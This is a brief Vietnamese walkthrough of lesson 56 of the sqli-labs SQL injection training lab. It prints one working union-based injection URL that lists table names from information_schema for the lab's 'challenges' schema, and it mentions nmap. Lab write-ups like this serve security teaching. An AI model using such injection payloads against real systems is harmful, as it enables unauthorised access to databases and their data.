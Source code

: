 # Những việc làm được với lesson-56
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-56

![](../images/lesson56/screen_3.png)

Bài này yêu cầu giống bài 54 ta chỉ việc đi tìm cấu trúc của nó Và kết hợp cùng với union luôn. Và ta có được 14 lần thử  

- Lần 1: 
```
192.168.80.225/sqli-labs/Less-56/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson56/screen.png)

`LUCKY` lần đầu và thành công với tên của bảng này ta sẽ làm tưng tự bài 54 cùng với cấu trúc của bài này để có được key 
